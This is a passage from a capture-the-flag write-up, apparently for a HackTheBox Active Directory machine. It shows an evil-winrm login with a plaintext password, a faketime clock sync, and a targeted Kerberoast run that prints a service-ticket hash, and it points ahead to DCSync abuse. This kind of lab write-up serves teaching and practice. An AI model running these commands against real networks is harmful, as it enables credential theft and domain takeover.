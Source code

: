 First, let's retrieve the user flag.

{% highlight shell %}
exegol-liemek administrator # evil-winrm -u "emily" -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb" -i "10.10.11.42"

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\emily\Documents> type ..\Desktop\user.txt
dc4c2b**************************
{% endhighlight %}

Synchronize the time between our local machine and remote host, so we don't get a clock skew error.

{% highlight shell %}
exegol-liemek administrator # faketime "$(date +'%Y-%m-%d') $(net time -S 10.10.11.42 | awk '{print $4}')" zsh

exegol-liemek administrator # date
Mon May  5 04:33:06 AM CEST 2025
exegol-liemek administrator # rdate -n 10.10.11.42                                                            
Mon May  5 04:33:12 CEST 2025
{% endhighlight %}

Perform the attack using <mark>targetedKerberoast.py</mark>.

{% highlight shell %}
exegol-liemek hashes # targetedKerberoast.py -v -d "administrator.htb" -u "emily" -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb"
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (ethan)
[+] Printing hash for (ethan)
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$469505f397ecd52d0e61e7d5622acfbf$d7519accbcdfdce61c9233d7a65462e47bd9f69adc3abe410b3<SNIP>
{% endhighlight %}

### Cracking a hash

#### Ethan

Ethan has <mark>DCSync</mark> privileges over the domain, with these, we will be able to dump NTLM hashes for the domain.

![](/assets/img/posts/Administrator/Ethan.png)
